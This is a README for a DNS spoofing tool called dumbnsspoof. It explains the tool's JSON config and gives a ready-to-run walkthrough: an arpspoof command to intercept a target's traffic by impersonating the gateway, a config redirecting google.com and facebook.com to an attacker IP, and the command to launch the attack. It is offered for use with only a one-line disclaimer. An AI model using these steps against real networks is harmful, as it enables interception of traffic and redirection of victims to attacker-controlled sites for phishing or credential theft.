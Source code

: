 # dumbnsspoof
dns spoofing tool

dumbns is a DNS spoofing tool, the attack wont do MITM by it self, you need to do it by yourself, this script listen for DNS traffic and return a response base on the given config, if no requested domain was ask the script will drop the packet.

|          regex         | domain regex, mean no hard typing is required |
|:----------------------:|:---------------------------------------------:|
|      simple config     |      a simple config file in JSON format      |
|        IPv4/IPv6       |             supports IPv4 and IPv6            |
|      specification     | target specification or exclude specification |
| many domains to one IP |     can direct diff domains to the same IP    |

## legal
any use of this script on unauthorized networks make the user the responsible and not the developer

## problem with DNSspoofing && dumbnsspoof
most systems will store DNS data in a file called HOSTS file so they wont need to go thorug the DNS process again, so this wont always work first time
on visited site, the script does not support DNS tcp connections<br><br>

if you gonna try to redirect a domain to IP that runs multi domains, most of the time you will get 404 error because you redirecting
a domain that the IP does not support

## problem with node http-server
if you are using (for tests) node `http-server`, the script will send the correct spoofed ip but some times the `http-server` wont complete the 3-way handshake
this is a problem with the `http-server` and not the script, to fix it restart the server and refresh the browser, I recommend alternative for `http-server` 

## config file
when running dumbns it will look for a config file (default name "dumbns.config.json" can be changed with `--config`), the config file is in JSON format

|    name   |  requested value  |                                                                                description                                                                               |
|:---------:|:-----------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|    ttl    |        int        |                                                for how much time the DNS response is valid to be stored in the HOSTS file                                                |
|  dns_mac  |       string      | if added it will optimize the filtering, if added with -e3 it will optimize the filtering and the script will be able to send the real dns-server the ICMP type 3 packet |
|   echo3   |        bool       |                                            send ICMP type3 code 3 to the real dns-server when match found (requires `dns_mac`)                                           |
|  targets  |        list       |                                                                            targets list of IP                                                                            |
|  exclude  |        list       |                                                          exclude target IP, cannot be set when `targets` are set                                                         |
|  domains  | dict (aka js obj) |                                                     the key is the attacker IP, the value is a list or regex domains                                                     |
| interface |       string      |                                                                        the interface to listen on                                                                        |

## MITM with dumbns
for home networks a dns request is send to the gateway and then the gateway will send the request to a real DNS server, or some computers have a static DNS ip <br>
but all the traffice goes through the gateway so we need to do MITM attack to see outgoing DNS packets

for this example I will use `arpspoof` from here => https://github.com/byt3bl33d3r/arpspoof <br>

```sh
foo@foo:~$ sudo arpspoof -r -i eth0 -t <target-ip> <gateway ip>
```
this will make the target think you are the gateway and now we will be able to see the outgoing data of the target

```json
# dumbns.config.json
  {
    "targets": ["<target-ip>"],
    "domains": {
      "<attacker-ip>": [
        "google.com",
        "facebook.com"
      ]
    },
    "interface": "eth0"
  }
```
now that we have the config lets run the attack

```sh
foo@foo:~$ sudo python3 dumbnsspoof.py
```


